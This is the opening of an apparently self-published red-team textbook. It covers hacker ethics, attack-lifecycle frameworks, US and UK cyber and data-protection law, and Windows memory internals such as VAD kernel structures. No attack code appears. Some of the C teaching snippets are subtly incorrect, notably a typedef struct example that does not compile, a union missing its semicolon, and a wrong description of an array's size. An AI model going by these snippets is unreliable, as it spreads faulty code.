MIT License

Copyright (c) 2026
The Red Teamers Bible © 2026 by Jaden Andrews is licensed under Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International.
You are free to:
- Share — copy and redistribute the material in any medium or format
- Adapt — remix, transform, and build upon the material
Under the following terms:
- Attribution — You must give appropriate credit, provide a link to the license, and indicate if changes were made.
- NonCommercial — You may not use the material for commercial purposes.
- ShareAlike — If you remix, transform, or build upon the material, you must distribute your contributions under the same license.
No additional restrictions — You may not apply legal terms or technological measures that legally restrict others from doing anything the license permits.
No warranties are given. The work is provided “as is,” without any express or implied warranty. The licensor shall not be liable for any damages arising from the use of this work.
To view a copy of this license, visit: https://creativecommons.org/licenses/by-nc-sa/4.0/
Foreword
History has proven that computer vulnerabilities persist, in spite of the intentions of the engineers and developers who create the products where these vulnerabilities are identified. It is my intention, in creating this book, that people become familiar with the methods and techniques used by malicious actors in order to exploit these vulnerabilities for malicious purposes.
Despite my intentions, I am aware that the knowledge contained within this body of work can be used by anyone to serve their individual interests, whether they seek to positively or negatively impact society at large. But in the wise words of Jon Erickson, the hacker ethic is "the appreciation of logic as an art form and the promotion of the free flow of information, surmounting conventional boundaries and restrictions for the simple goal of better understanding the world". As I understand it, the methods and techniques used by malicious hackers to exploit computer vulnerabilities are principles of the natural world's function and it is in the interest of any ethical hacker to find ways to defend against any malicious actor who may seek to take advantage of these functions.
My ultimate goal in writing this book is to arm anyone who seeks to understand how computer systems work with the fundamental knowledge they need to understand the perspective of those who seek to do harm using those very systems. Computers are complex machines, barely distinguishable to most from magic. But unlike magic, computer systems are rooted in technologies that were created by human beings. It is our responsibility to maintain the knowledge required to understand how these systems work, if it is in our interest to continue promoting their use in the various industries where their functions are relied on. As of now, it is no longer a question of whether computer systems have any worth, rather it is our responsibility to delegate the places where computers are valuable resources and how we can protect them from those who seek to do harm.
While it is my intention to provide a comprehensive breakdown of Red Team Operations and their many faucets, I have to start somewhere. Please refer to the Appendices that I have made available if you are missing any information and use any additional resources to fill in other gaps. Hacking is just as much about one's ability to learn and adapt as it is about implementing technical skills. Use whatever is available to you to achieve your desired outcome.
To those who may seek to use the information contained here for malicious purposes, just know that everything written here is known, and those you seek to take advantage of are aware of your methods. There is always a bigger fish in this sea. Until you discover something that is new, you will be subject to the will of those who are more familiar with this space than you are.
For everyone else, recognize that I begin this work by covering the laws that govern this line of work. Use your time to study and understand them. These laws provide the framework from which you should develop your own principles and values. It is important that you understand that the power you seek to hold is sacred, and wielding it irresponsibly makes you no different from those who seek to do harm. Do your own research, and learn to use the knowledge you hold for the benefit of others. It is only by understanding the context from which these techniques can be used that you can use them responsibly.
Most importantly, I encourage readers to continue to learn whatever it is that they desire. As previously stated, hackers have an interest in discovering how the world works. Computers are but a single facet of general function. Go out and discover what else there is to learn. Even if you have a singular interest in learning to hack, a general knowledge of the world will be of great benefit in the long run. Hacking in general is a great understanding of how things work, such that the hacker is able to take advantage of the principles of universal function. Use your knowledge with caution, and remember that with great power comes great responsibility.
Introduction to Red Teaming
During the Cold War in the 1960s, the RAND Corporation, who was working with the U.S. military, simulated wargames between the U.S. and the Soviets. The Soviet units were the red team and the American units were blue. Out of this, sprang our modern practice of Red Team Operations. While modern cybersecurity red teams do not have a focus on war time activities, their practice of emulating the tactics, techniques, and procedures (TTP) of their cyber adversaries is rooted in the same principles.
There are two main types of red team operations:
- Adversary Emulation: The goal of these operations is to emulate a specific threat by leveraging their known TTPs. It is narrow in scope and aims to enhance an organizations defences against a specific threat.
- Adversary Simulation: The goal of these operations is to simulate a hypothetical threat by leveraging unknown or unique TTPs. This is very broad in scope and enhances defences against a range of threats.
Whether it is Adversary Emulation or Simulation, the goal of the Red Team is to test the abilities of a Blue Team, or the defensive team that protects an organization from malicious cyber activity. This can be measured in:
- Time to Detect: The time between the inciting antagonistic event and the initial response from the blue team.
- Time to Mitigate: The time between the inciting antagonistic event and the restoration of the organization's systems/domain to ideal conditions.
Threat Intelligence (TI) describes evidence-based knowledge of the mechanisms, context, and implications of attacks from threat actors. Using TI helps an organization identify emerging threats and their mitigations, frame testing scenarios, and analyze their own environments to identify patterns of TTPs and Indicators of Compromise. TI-related data has been standardized in many common formats, including:
CAPEC: Common Attack Pattern Enumeration and ClassificationCybOX: Cyber ObservablesMicrosoft InterflowSTIX: Structured Thread InformationTAXII: Trusted Automated eXchange of Indicator Information
Red Team Operators can use TI to research the TTPs of known Advanced Persistent Threats, in order to understand how they work and to perform Adversarial Emulation under realistic conditions.
There are a number of frameworks that try to map out the steps taken by an adversary when attacking a domain:
-
Cyber Kill Chain: First published by Lockheed Martin in 2011, the Cyber Kill Chain breaks the attack lifecycle down into 7 simple steps:
Reconnaissance: The adversary scouts their target to find potential attack vectors.Weaponization: The adversary develops a malicious payloadDelivery: The adversary develops a means of delivering the payload to the identified target.Exploitation: The adversary initializes the attack by delivering the weaponized payload.Installation: The payload is persistently installed on target systemsCommand & Control: The adversary establishes a means of controlling the compromised targets.Actions on Objectives: The adversary achieves their operational goals.
-
Targeted Attack Lifecycle: The Cyber Kill Chain lacked verbosity, so in 2013, Mandiant published the Targeted Attack Lifecycle.
Initial Reconnaissance: The adversary researches the target's systems and employees to develop a methodology for intrusion.Initial Compromise: The malicious code is executed on one or more targets via the attack vector planned in Phase 1.Establish Foothold: The adversary maintains continued control over a compromised system by installing persistent backdoors.Escalate Privileges: The adversary exploits system vulnerabilities or misconfigurations to obtain local admin access to compromised systems.Internal Reconnaissance: Adversaries explore the target's internal infrastructure and environment .Move Laterally: The adversary uses credentials obtained during phase 4 to compromise additional systemsMaintain Presence: The adversary maintains highly privileged access to domains and systemsComplete Mission: The adversary accomplishes their operational objective.
One additional fact about the Targeted Attack Lifecycle is that, unlike the Cyber Kill Chain, it is non-linear, and many phases are repeated throughout the engagement, like so:

Source: https://www.gstatic.com/bricks/image/eedab7cf-6618-4699-aa52-9c67e4428f8d.png
{kind=link}
- Other Attack Lifecycles include:
Over the course of this book, we will focus on building a fundamental understanding of just how malicious actors walk through these steps and how OffSec professionals use this knowledge to test the defenses of potentially vulnerable organizations.
Laws and Compliance
Introduction
While there are many laws that regulate the use of computers internationally, this section focuses on laws within the United States and the United Kingdom, as they establish a general foundation for the laws which are enforced at an international level. If you have an interest in the laws of any particular region of the world, more information can be found online, including the United Nations Institute for Disarmament Research (UNIDIR) Cyber Policy Portal Database and the United Nations Conference on Trade and Development (UNCTAD) Global Cyberlaw Tracker.
Laws
Computer Fraud and Abuse Act (CFAA)
The Computer Fraud and Abuse Act (CFAA) was codified in 1986 as 18 U.S.C. § 1030 (Title 18 of the United States Code, Section 1030). It prohibits intentionally accessing a computer without authorization or exceeding authorized access. CFAA generally covers activities, such as:
-
Unauthorized Access: Gaining access to a computer system or network without permission. -
Execeding Authorized Access: Accessing a part of a system you are authorized to use, but then using that access to obtain or alter information you are not entitled to. -
Computer Trespassing: Accessing a government computer without authorization. -
Computer Fraud: Accessing a protected computer with the intent to defraud and obtain something of value. -
Damaging a Protected Computer: Knowingly transmitting a program or code that causes damage to a computer, such as a virus or worm. -
Password Trafficking: Knowingly and with intent to defraud, trafficking in passwords or other information that allows unauthorized access to a computer. -
Extortion: Using threats to damage a computer or obtain information from it to extort money or other things of value.
CFAA applies to both criminal penalties and civil causes of action, allowing individuals and organizations that have suffered damages to sue violators.
Health Insurance Portability and Accountability Act (HIPAA)
The Health Insurance Portability and Accountability Act was passed in 1996 and codified in the Code of Federal Regulations, Title 45 (Public Welfare), under parts 160, 162, and 164. It is primarily meant to protect the privacy and security of individuals' health information. It can be broken into two distinct parts:
-
The Privacy Rule: Establishes national standards for the protection of a patients medical records and other individually identifiable health information (Protected Health InformationPHI). -
The Security Rule: Addresses the protection of electronic Protected Health Information (ePHI). It requires that covered entities implement administrative, physical, and technical safeguards to ensure the confidentiality, integrity, and availability of ePHI.
HIPPA also includes a Breach Notification Rule, which requires covered entities and their business associates to notify affected individuals, and in some cases the government and media, of a breach of unsecured PHI.
Payment Card Industry Data Security Standard
The Payment Card Industry Data Security standard (PCI-DSS) is a set of security standards designed to ensure that all companies that process, store, or transmit credit card information maintain a secure environment. It was created by the major payment card brands (Visa, Mastercard, American Express, Discover, and JCB) through the Payment Card Industry Security Standards Council (PCI-SSC).
PCI-DSS is organized around 12 core requirements, that fall into 6 categories:
-
Build and Maintain a Secure Network and Systems
- Install and Maintain Network Security Controls.
- Apply Secure Configurations to All System Components.
-
Protect Cardholder Data
- Protect Stored Account Data.
- Protect Cardholder Data with Strong Cryptography During Transmission Over Open, Public Networks.
-
Maintain a Vulnerability management Program
- Protect All Systems and Networks from Malicious Software.
- Develop and Maintain Secure Systems and Software.
-
Implement Strong Access Control Measures
- Restrict Access to System Components and Cardholder Data by Business Need to Know.
- Identify Users and Authenticate Access to System Components.
- Restrict Physical Access to Cardholder Data.
-
Regularly Monitor and Test Networks
- Log and Monitor All Access to System Components and Cardholder Data.
- Test Security of Systems and Networks Regularly.
-
Maintain an Information Security Policy
- Support Information Security with Organizational Policies and Programs.
Any organization which fails to comply with these standards may face fines, a loss of ability to process card payments, and/or increased transaction fees. Compliance is validated annually based on a company's transaction volume. The latest version, 4.0 was released in March 2022, and became mandatory after March 31, 2025.
Federal Information Security Modernization Act (FISMA)
The Federal Information Security Modernization Act (FISMA) is United States Federal law, which governs the information security of federal government systems. It requires that every federal agency develop, document, and implement an agency-wide information security program. It was originally passed in 2002 as the Federal Information Security Management Act, but was amended and updated in 2014. FISMA is now codified as 44 U.S.C., Chapter 35, Subchapter II (§§ 3551–3558).
FISMA mandates a framework, which includes:
A Risk-Based Approach: Agencies must categorize information systems and data based on the potential impact of a breach (low, mid, high), then implement security controls that are appropriate for that risk level.Continuous Monitoring: Requires agencies to continuously monitor their IT systems for vulnerabilities and threats.Required Security Controls: Agencies must implement a set of security controls based on standards and guidelines developed by the National Institute of Standards and Technology (NIST).Annual Reporting: Agencies must conduct annual security reviews and report the results to the Office of Management and Budged (OMB) and Congress.Department of Homeland Security (DHS) Authoriy: Codifies DHS's authority to manage information security for federal civilian agencies, provide technical assistance, and issue binding operational directives in response to security threats.
Computer Misuse Act
The Computer Misuse act is the main piece of UK legislation that criminalizes unauthorized access to computer systems and data, as well as other acts that can impair, or risk, impairing computer operations. It was enacted in 1990. Initially, it had 3 sections:
Section 1: Makes it an offense to gain unauthorized access to computer material, meaning systems or data.Section 2: Makes it an offense to gain unauthorized access with intent to commit or facilitate further offenses.Section 3: Makes it an offense to perform unauthorized acts against computer systems, either with intent to impair, or that may cause impairment, even if accidental.
In 2006, the Police and Justice Act provided some amendments to the CMA by updating the wording and emphasizing the need for clear proof of intent before someone can be found to have committed an offense. This also criminalized the making, supplying, or obtaining of materials that are used to commit an offense (such as worms, viruses, trojans, etc.).
In 2015, the Serious Crime Act provided further amendments, enforcing much harsher sentences for unauthorized acts that cause or risk causing serious damage, including:
- Illness or Death
- Disruption to:
- Food
- Water
- Energy
- Fuel
- Transportation
- Communication
- Health
- Government
This act also updated the territorial scope of an offense to include acts against another country and acts by a UK citizen from another country.
Human Rights Act
The Human Rights Act is a piece of UK legislation that was introduced in 1998. It defines the fundamental rights and freedoms that everyone is entitled to. Rights are presented as a series of "articles", incorporates from the European Convention on Human Rights. The main articles are:
Part I Article 6: Right to a fair trial- Innocent until proven guilty
- Evidence gathered through security testing or incident responses in particular must be handled in a manner that preserves integrity to ensure admissibility in court.
Part I Article 8: Right to respect for private and family life- Everyone has the right to respect for their private life, home, and correspondence
Part II Article I: Protection of property- Everyone is entitled to the peaceful enjoyment of their possessions and no one shall be deprived of this through security testing.
The UK Data Protection Framework
The UK Data Protection Framework is the primary legal and regulatory framework used in the United Kingdom to govern how personal data is collected, used, stored, and protected. It is made up of two main pillars:
- The United Kingdom General Data Protection Regulation: A comprehensive framework, which defines what protections and rights must be enforced to protect the personal data of UK citizens. It can be broken into 7 key data protection principles:
Lawfulness, Fairness, and Transparency:Lawfulness: The processing of personal data must have a valid legal basisFairness: Any processing of data must be fair toward the individual and not misleading or deceptive.Transparency: controllers must provide individuals with information regarding the processing of their data in a format that is concise and easy to understand.
Purpose Limitation: Data must be collected for specific and legitimate purposes, which are described at the time of collection and must not be processed for any other reason.Data Minimization: Controllers should not collect unnecessary personal data.Accuracy: Controllers must take every reasonable step to ensure inaccurate personal data is deleted or rectified.Storage Limitation: Controllers must delete data as soon as it ceases to be necessary.Integrity and Confidentiality: Personal data must be processed in a manner that ensures the appropriate level of security, including protection against unauthorized processing, accidental loss, destruction, or damage.Accountability: Controllers and processors are responsible for, and must be able to demonstrate compliance with all aforementioned data protection principles.
The GDPR provides the following definitions:
Controllers: A natural or legal person, public authority, agency, or other body which determines the purposes and means of processing personal data.- The entity responsible for defining the purposes and means of processing personal data.
Processors: A natural or legal person, public authority, agency, or other body which processes personal data on behalf of the controller. * The entity responsible for handling data based on the documented instructions of a controller
Take Notice!!! Red team services may be employed in order to fulfill GDPR Article 32:
The controller and processor shall implement appropriate technical and organizational measures to ensure a level of security appropriate to the risk
- The Data Protection Act: Specific UK law, which implements, supplements, and tailors the GDPR — providing exemptions, enforcement powers, and special cases.
Conclusion
Hackers use their technical knowledge of how computer systems work in order to identify and exploit vulnerabilities. Certain laws help to distinguish between the ethical and unethical behaviors that can be exercised by them. More than this, ethical hackers can use their skills to help businesses and organizations remain in compliance with the laws and standards relevant to their industries. It is the responsibility of any offensive security practitioner to familiarize themselves with the laws that govern what they can and cannot do. But more importantly, use good judgment. Do not cause harm where it is not otherwise necessary.
Windows Fundamentals
Introduction
Programs are tightly integrated with operating systems. Identifying and understanding the bridging points between application programs and the operating system is critical to identifying and exploiting vulnerabilities. Microsoft Windows is the largest desktop OS and is the largest target for malicious attacks. The goal of this chapter is to establish how Windows works in order to inform the more practical work that we will engage later on.
Components and Basic Architecture
Microsoft Windows is a family of proprietary Operating Systems developed and sold by Microsoft. It runs on many computing platforms, and is responsible for managing hardware and software resources, providing a graphical user interface, and supplying built-in apps and services for file management, computer networking, security, and running third-party apps. Windows is made up of a few, key features and components:
64-bit Architecture: Modern Windows operating systems, including Windows 10 and 11, are designed as pure 64-bit environments. This allows them to optimally use modern, 64-bit processors designed by companies such as Intel, AMD, and Qualcomm.Supports Virtual Memory: Virtual memory allows the system to use disk space as if it were additional RAM, managing memory efficiently and enabling the execution of multiple applications, even when physical memory is low.Portable: Modern Windows is a highly portable operating system, written primarily in C and C++. This allows it to run on a variety of processor architectures, including x86-64 and ARM. The systemsHardware Abstraction Layer(HAL) isolates the OS from the physical hardware, making it easier to adapt to new hardware platforms and drivers.Multithreaded: Windows is a fully preemptive, multi-threaded operating system. The kernel and its core components are designed to handle multiple tasks concurrently, providing a responsive and fluid user experience. This allows modern applications to run smoothly and simultaneously, without one task monopolizing system resources.Multi-processor Capable: The Windows kernel is highly multi-processor capable, designed to efficiently utilize multiple CPU cores. This makes the operating system well suited for high-performance computing tasks from data center servers to high-end gaming and content creation applications.Secure: Security is a core design principle of modern Windows. Every object has anAccess Control List(ACL) that specifies user permissions, and theNT File System(NTFS) supports ACLs on individual files and folders. Modern versions also include built-in encryption features, such asBitLocker, and continuous support for security features and other upgrades to protect against modern threats.Compatible: Windows 10 and 11 offer excellent backward compatibility. They can run a wide range of older applications, including those from previous Windows versions. The OS uses special isolation techniques to run legacy applications safely, preventing them from destabilizing the rest of the system.
As we can see, Windows provides a number of features to provide a secure, easy, and reliable system for users to conduct a number of computer based activities. The remainder of this chapter will explore the more explicit details of how Windows is implemented.
The Windows Executive
The Windows Executive is the core, kernel-mode layer of Windows that provides the fundamental operating-system services used by all programs and subsystems. It sits above the hardware-specific kernel layer and below user-mode code, acting as the main "engine" of the OS.
The Window Executive implements high-level OS services such as:
- Process and Thread Management
- Memory Management
- I/O and Device Management
- Security and Access Control
- Inter-Process Communication
It is made up of many components, all kernel-mode subsystems, mostly implemented in ntoskrnl.exe:
- The Object Manager
- The Security Reference Monitor (SRM)
- The Process Manager
- The Memory Manager
- The I/O Manager
- The Cache Manager
- The Configuration Manager
- The Plug And Play Manager (PnP)
- The Virtual Memory Manager
The function of these subsystems will be elaborated on as they come up.
User-Mode applications use the Win32 APIs to interact with the Windows Executive. This provides abstraction from hardware, enforces security and isolation, enables multitasking and stability, and makes Windows a hybrid-kernel not a microkernel since the kernel is not monolithic.
Memory Management
Virtual Memory and Paging
Virtual Memory is a memory management technique used by operating systems to provide the illusion of a much larger, contiguous block of main memory than is physically available, by using a portion of the secondary storage as an extension of the physical memory. It allows programs to run, even if they are larger than the available physical memory by mapping a program's virtual addresses to physical addresses in RAM.
Virtual Memory offers several key benefits:
Multitasking: more apps can run than RAM alone could allowMemory Abstraction: No need for developers to worry about memory size or fragmentationSecurity: Prevents apps from overwriting memory space that is not their own through isolation.
Paging is the most common memory management scheme used to implement virtual memory.
Fixed-size Blocks: Both physical and virtual memory are divided into fixed-size blocks (pages for virtual, frames for physical).Page Table: A data structure managed by the operating system that keeps track of the mapping between a programs virtual pages and the physical frames where they are stored. Each process has its own Page Table, and each Page Table is stored in physical memory.Page Faults: Occurs when a program tries to access a virtual address that doesn't have a corresponding physical frame in RAM (because the page is currently stored on the disk)Swapping: When a page fault occurs, the operating system finds the required page in the paging file (pagefile.syson Windows), loads it into an available physical frame, updates the page table, then allows the program to continue its execution. If no frames are free, an old one is paged into the paging file to make space.

Diagram of Virtual Memory and Paging
Working Sets
Working Set: The set of pages that a process has recently referenced and currently reside in physical memory (RAM).
The working set of a process is used to determine said process's active use of physical memory and which pages have not been accessed in a while. Such pages can then be paged out to disk (pagefile.sys) and removed from the process's working set.
Section Objects
A Section Object is a kernel object, which represents a region of memory that can be shared between multiple processes. They can be mapped to multiple places, making them a convenient tool for applications to share memory between them. In fact, the system uses section objects to share memory between the kernel and user-mode processes. A section is mapped into both the kernel address space and one or more user-mode address spaces.
There are two basic types of section object:
Pagefile-Backed: An empty section of virtual memory that can be used for temporary storage of information and is usually created to share data between two processes or between applications and the kernel.File-Backed: A region of virtual memory directly associated with a specific file on disk ,used as a convenient way of accessing a file using a pointer, rather that APIs, such asReadFileandWriteFile.- Systems use file-backed section objects for a variety of purposes, including the loading of executable images.
Sometimes, a Section Object is referred to as a File Mapping Object. They are created for a number of reasons, including:
Image Loading: When a new process is created, it must allocate space within virtual memory for the contents of the main executable file (.exe) and any shared libraries it uses (.dll). A section object is created for each of these files, so that the actual.exeor.dlldoes not have to be accessed directly, using theReadFileandWriteFileWin32 API functions.Inter-Process Communication(IPC): Pagefile-backed section objects provide an inexpensive way for processes to share information with one another, without frequently transitioning to kernel-mode.Anonymous Memory Allocation: When a process uses a function, likeVirtualAllocfor anonymous memory, Windows typically backs it with an unnamed, pagefile-backed section object.
Kernel Memory and User Memory
The principle of separating kernel memory and user memory is a cornerstone of modern operating systems. This distinction ensures stability, security, and integrity for the system. By preventing user-mode applications from directly accessing the core data structures of the OS, we protect the system from bugs and malicious software that could otherwise cause crashes or grant unauthorized control of the system.
Modern, 64-bit Windows systems have a vastly different memory architecture than their predecessors, as their 64-bit system offers a theoretical address space of 2⁶⁴ bytes. The total virtual address space is logically divided into two distinct regions:
User-Mode Memory: The memory space allocated for each individual process.- Every process has its own isolated, private user-mode address space, making it so that a bug in one app's memory will not affect other apps, or the operating system itself.
Kernel-Mode Memory: Memory space reserved for the operating system, kernel, device drivers, and other system-level components.
Modern processors and operating systems support a very large virtual address space, typically up to 128 TB for user-mode applications and 128 TB for kernel-mode components.
The separation of these two regions ensures that the kernels critical functions and data structures are always secure and available. The kernel code and data are always mapped into the support portion of every process's address space. This allows the OS to handle system calls and interrupts efficiently, without having to switch memory contexts.
The Kernel Memory Space
The 128 TB allocated for kernel mode components is not statically allocated, as most components have a dynamic size that can be determined in runtime based on the physical memory available and the many user-configurable registry keys that are needed. Some of these components include:
Paged Pool: Kernel memory pool used to store data structures which can be paged out if the system is under memory pressure, including:- Object Handles
- Registry Hives
- System Driver Data
Nonpaged Pool: Kernel memory pool used to store data structures which must remain in physical RAM for as long as they are allocated.- This section is used for data, which must be accessible at all times, including:
- Interrupt Service Routines (
ISRs) and Deferred Procedure Calls (DPCs)- These structures cannot handle page faults
- Thread and Process Objects
- I/O Request Packets (
IRPs) - Synchronization Objects (
events,mutexes,semaphores, etc.)
- Interrupt Service Routines (
- This section is used for data, which must be accessible at all times, including:
System Cache: The section of kernel-memory used to cache file data from the disk. When an application reads from a file, the memory manager may copy the file data into the system cache to speed up subsequent reads by the same or other applications.Terminal Services Session Space: In a multi-user environment (like Remote Desktop Services), each user session has its own isolated session space in kernel memory. This space contains session-specific data ns for components which require isolation between user actions, such aswin32k.sys, which manages the graphical user interface.Page Tables: A mapping to kernel-managed data structures stored in physical memory that describe how each process’s virtual addresses are translated into physical memory addresses. On modern 64-bit architectures, these tables are organized hierarchically (e.g., multi-level page tables) to efficiently represent large address spaces while conserving memory.Hyper Space: A small reserved, process-private region of the kernel's address space used to map pages on a temporary basis. For example, during page fault handling, this space is used to move data between the paging file and physical memory.System Working Set: The pages of the kernel and its components that are in RAM.System Page-Table Entries (PTEs): Entries within page tables that contain the mapping from a virtual page to a physical frame.
VADs and VAD Trees
A Virtual Address Descriptor is a kernel data structure that describes a contiguous region of memory within a process's virtual address space. Each one is represented by a _MMVAD structure, which is used by the Windows Memory Manager to keep track of every reserved or committed range of virtual memory within a process's address space.
A VAD Tree describes the collection of all _MMVAD structures within a process, organized into a self-balancing binary search tree. It makes it possible to quickly identify a specific virtual memory address within a process's virtual memory space.
The _MMVAD structure is not officially documented, but it has been reverse engineered, with a set of particularly useful versions being published through the Vergilius Project. The Vergilius Project provides information about kernel structures, unions, and enumerations from publicly available Program Database (.pdb) files, most of which are not officially documented and cannot be found in the Windows Driver Kit (WDK) headers.
Here is the Windows 11 23H2 (Nickel R2) version of the _MMVAD structure's signature:
typedef struct _MMVAD
{
struct _MMVAD_SHORT Core;
struct _MMVAD_FLAGS2 VadFlags2;
struct _SUBSECTION* Subsection;
struct _MMPTE* FirstPrototypePte;
struct _MMPTE* LastContiguousPte;
struct _LIST_ENTRY ViewLinks;
struct _EPROCESS* VadsProcess;
union
{
struct _MI_VAD_SEQUENTIAL_INFO SequentialVa;
struct _MMEXTEND_INFO* ExtendedInfo;
} u4;
struct _FILE_OBJECT* FileObject;
};
Every part of the _MMVAD structure is not relevant to our discussion here, but some parts of interest include:
typedef struct: a combination ofCkeywords, which define an alias for an existing type, then join a set of variables under that new name.
Using typedef struct
In C, a struct lets you group different variables under one name, like so:
struct Point {
int x;
int y;
};
You can then create instances of the structure, Point, as follows:
struct Point p1;
p1.x = 1;
p1.y = 2;
By including typedef, you can create new instances by simply providing the structure's alias, like so:
typedef struct Point {...};
Point p2;
p2.x = 1;
p2.y = 2;
_MMVAD_SHORT: A critical, embedded structure which contains the essential components of the VAD. More on this later._MMVAD_FLAGS2: A 32-bit set of field flags used to control and track the VAD's state._SUBSECTION: A pointer to the Subsection structure, which describes how the memory region is backed by a Section Object and, ultimately, a file on disk.- If this pointer is NULL, the memory is typically backed by the page file.
_MMPTE: (Memory Manager Page Table Entry) A Windows kernel structure that represents a single page table entry (PTE) used by the Memory Manager (MM) to describe if or how a virtual page is mapped to physical memory.FirstPrototypePteandLastContiguousPtecontain pointers which define the start and end of thePrototype Page Table Entrieslist. This list tells the Memory Manager where to find the content for every page within the VADsVirtual Page Number(VPN) range.
union {...} u4;: A C language construct, which declares an anonymous union type, then defines a variable or field named u4 of that type.VadsProcessis the_EPROCESSkernel object that the VAD belongs to.
A union {...} name; is a special data structure, which allows a developer to store different data types within the same memory location. This means that the union construct is only as large as its largest member.
For example:
union {
int IntegerValue;
float FloatValue;
char Bytes[10];
} age;
Creates an anonymous union construct, which can be either an Integer, a Float, or a Character String (up to 4-bytes). This construct is then assigned to a variable, age
You can set the value of a union construct like so:
...
age.IntegerValue = 20;
age.FloatValue = 20.0;
strcpy(age.Bytes, "twenty");
But, only one member should be set and read at a time. Reading a different member than the one that was last written will read the memory space of the union construct as the data type of the member you attempted to read:
...
printf("The value of union is %i", age.IntegerValue);
// This will output "1852143476", since it is equivalent to "twen" in decimal
You can also create named unions and use typedef to streamline their creation:
union Age{
unsigned int IntegerValue;
float FloatValue;
char Bytes[10];
};
union Age a;
a.IntegerValue = 20;
typedef union Year{
UINT IntegerValue;
ULONG LongValue;
char Bytes[30];
}
Year y;
strcpy(y.Bytes, "two-thousand twenty-five");
_EPROCESS*: a pointer to a Windows kernel structure, which represents a process._FILE_OBJECT*: a pointer to a Windows kernel object that represents an open file or device.FileObjectis a pointer to the kernel object that represents the file on disk representing that particular VAD.NULLif the VAD is private (pagefile-backed or physical memory only).
The core components of _MMVAD are housed in it's Core attribute, which is a _MMVAD_SHORT type structure. _MMVAD_SHORT is essential for maintaining the VAD Tree and describing the memory regions basic properties.
Here is the Windows 11 23H2 (Nickel R2) version of the _MMVAD_SHORT structure's signature:
typedef struct _MMVAD_SHORT
{
union
{
struct
{
struct _MMVAD_SHORT* NextVad;
VOID* ExtraCreateInfo;
};
struct _RTL_BALANCED_NODE VadNode;
};
ULONG StartingVpn;
ULONG EndingVpn;
UCHAR StartingVpnHigh;
UCHAR EndingVpnHigh;
UCHAR CommitChargeHigh;
UCHAR SpareNT64VadUChar;
volatile LONG ReferenceCount;
struct _EX_PUSH_LOCK PushLock;
union
{
ULONG LongFlags;
struct _MMVAD_FLAGS VadFlags;
struct _MM_PRIVATE_VAD_FLAGS PrivateVadFlags;
struct _MM_GRAPHICS_VAD_FLAGS GraphicsVadFlags;
struct _MM_SHARED_VAD_FLAGS SharedVadFlags;
volatile ULONG VolatileVadLong;
} u;
ULONG CommitCharge;
union
{
struct _MI_VAD_EVENT_BLOCK* EventList;
} u5;
};
Every part of the _MMVAD_SHORT structure is not relevant to our discussion here, but some parts of interest include:
-
VOID*: A void pointer to memory address for some data with no defined data type. *ExtraCreateInfois used to temporarily store metadata about the VAD while it is being created. -
_RTL_BALANCED_NODE: A Windows Kernel Data Structure that represents a node in a balanced binary tree. More on this later. -
ULONG: Initializes an unsigned long integer value. Atypedefalias for the standard Cunsigned long intdata type.StartingVpncontains the first Virtual Page Number (VPN) in the memory region described by the VAD.EndingVpncontains the lastVPNin that region.CommitChargerepresents the number of committed pages within the address space described by the VAD.
-
UCHAR: Initializes an unsigned character value. Atypedefalias for the standard Cunsigned chardata type. Anunsigned charallows you to deal with the raw bytes of the memory region, avoiding negative values (i.e.,0xFFshould be255, not-1).StartingVpnHighcontains the upper bits ofStartingVpnfor 64-bit addresses.EndingVpnHighcontains the upper bits ofEndingVpnfor 64-bit addressesCommitChargeHighcontains the upper bits of theCommitChargevalue to form a 64-bit Commit Charge value.SpareNT64VadUCharcontains a single byte, reserved for future use.
-
volatile: A type qualifier that notifies the compiler that the defined memory region may be accessed at any time outside of the program's control and access to it should not be optimized.
_MMVAD represents a single node in a VAD Tree and _MMVAD_SHORE initializes the core components of that node, but _RTL_BALANCED_NODE is responsible for adding the VAD Tree node in the correct place and maintaining the balance of the tree.
Here is the Windows 11 24H2 (Germanium) version of the structure:
struct _RTL_BALANCED_NODE
{
union
{
struct _RTL_BALANCED_NODE* Children[2]; //0x0
struct
{
struct _RTL_BALANCED_NODE* Left; //0x0
struct _RTL_BALANCED_NODE* Right; //0x8
};
};
union
{
struct
{
UCHAR Red:1; //0x10
UCHAR Balance:2; //0x10
};
ULONGLONG ParentValue; //0x10
};
};
Each process, EPROCESS contains a pointer to the root of it's VAD Tree object. Using Runtime Library(RTL), tree helper functions (i.e., RtlInitializeGenericTable(), RtlRbInsertNodeEx(), and RtlIsRoot()), the kernel is able to navigate, manipulate, and delete the VAD Tree.
User-Mode vs. Kernel Mode Memory Space
